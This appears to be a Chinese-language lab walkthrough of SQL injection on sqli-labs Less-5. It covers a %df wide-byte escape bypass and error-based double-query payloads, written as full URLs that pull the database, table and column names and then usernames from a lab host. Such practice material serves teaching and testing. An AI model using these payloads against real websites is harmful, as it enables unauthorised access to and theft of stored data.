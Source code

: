 1. 在id=1后面添加单引号发现被转义，在前面加了个\
2. 使用`%df`进行闭合：`id=1%df' and 1=1%23`

# 二次查询注入

sqli-lab 第五关 二次查询注入

双查询注入其实就是一个select语句中再嵌套一个select语句，嵌套的这个语句称作子查询`select concat((select database()));`

## 基础函数

* `count()`：汇总数据函数
* `rand()`：随机输出一个小于1的正数
* `floor()`：把输出的结果取整
* `group by`语句：把结果分组输出
* `concat()`：连接两条语句

## 注入过程

``` sql
select concat((select database()),floor(rand()*2))as a from information_schema.tables group by a;
```

这里解释一下，把`select database()`和`floor(rand()*2)`的结果输出到a里，然后最大长度根据`information_schema.tables`来决定，然后用a进行分组，bees1一组，bees0一组:

### 1. 爆当前库名

``` sql
http://192.168.1.113:86/Less-5/?id=1' union SELECT null,count(*),concat((select database()),floor(rand()*2))as a from information_schema.tables group by a%23
```

### 2. 报表名

``` sql
http://192.168.1.113:86/Less-5/?id=1' union SELECT null,count(*),concat((select table_name from information_schema.tables where table_schema='security'limit 0,1),floor(rand()*2))as a from information_schema.tables group by a%23
```

### 3. 爆列名

``` sql
http://192.168.1.113:86/Less-5/?id=1' union SELECT null,count(*),concat((select column_name from information_schema.columns where table_name='users'limit 12,1),floor(rand()*2))as a from information_schema.tables group by a%23
```

### 4. 查数据

``` sql
http://192.168.1.113:86/Less-5/?id=1' union SELECT null,count(*),concat((select username from users limit 0,1),floor(rand()*2))as a from information_schema.tables group by a%23
```